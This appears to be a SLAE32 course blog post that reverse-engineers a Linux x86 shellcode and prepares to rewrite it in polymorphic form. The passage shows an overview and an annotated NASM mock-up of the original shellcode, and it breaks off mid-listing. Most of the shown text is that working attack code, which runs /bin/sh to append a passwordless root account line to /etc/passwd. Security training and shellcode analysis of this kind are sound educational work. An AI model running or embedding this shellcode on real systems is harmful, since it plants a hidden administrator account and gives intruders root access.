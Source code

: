 ```yaml
---
title: SLAE32 Assignment 6.3 - Polymorphic Add User /etc/passwd
date: 2019-9-22
layout: single
classes: wide
tags:
  - polymorphic
  - passwd
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
## Overview
This shellcode is a polymorphic version of zillions `w000t-shell.c` shellcode.  
+ The original shellcode can be found at: http://shell-storm.org/shellcode/files/shellcode-543.php.
+ The original shellcode is `137 bytes`.
+ The final polymorphic version of the shellcode is `107 bytes`.

## Analyzing the Shellcode
To begin to create a polymorphic version of this shellcode I first had to understand it.   
Since there was only the hex of the shellcode in the post,  I reverse engineered the hex and created this mock-up of the original Assembly Instructions.  
#### Mock-up of Original Shellcode
```nasm
global _start
section .text
_start:
  jmp short jmp2call        ; jump2call so we can get the string location on the stack.
string2stack:
  pop esi                   ; pop memory location of string "/bin/sh#-c#/bin/echo.." into esi
  xor eax, eax              ; clear out eax register
  mov byte [esi +7], al     ; Null byte to terminate string "/bin/sh"
  mov byte [esi +10], al    ; Null byte to terminate string "-c"
  mov byte [esi +71], al    ; Null byte to terminate string
                            ; "/bin/echo w000t::0:0:s4fem0de:/root:/bin/bash >> /etc/passwd"
  mov dword [esi +73], esi  ; argv[] array start. Memory pointer to string "/bin/sh"
  lea ebx, [esi +8]         ; move pointer to string "-c" into ebx register
  mov dword [esi +77], ebx  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
  lea ebx, [esi +11]        ; move pointer to string "/bin/echo..." into ebx register
  mov dword [esi +81], ebx  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
  mov dword [esi +85], eax  ; argv[] Null dword terminator.
  mov al, 0xb               ; 11 - syscall for execve
  mov ebx, esi              ; location of string "/bin/sh" for program filename
```